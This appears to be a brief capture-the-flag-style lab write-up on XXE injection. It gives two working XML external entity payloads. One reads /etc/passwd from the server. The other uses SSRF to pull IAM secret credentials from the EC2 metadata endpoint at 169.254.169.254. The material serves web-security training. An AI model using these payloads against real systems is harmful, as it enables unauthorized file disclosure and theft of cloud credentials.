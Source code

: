 # XXE Injection (XML external entity)

## Lab: Exploiting XXE using external entities to retrieve files

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

To achieve this lab I used this payload:

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>

```

## Lab: Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.


```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE root [ <!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>

<stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>

```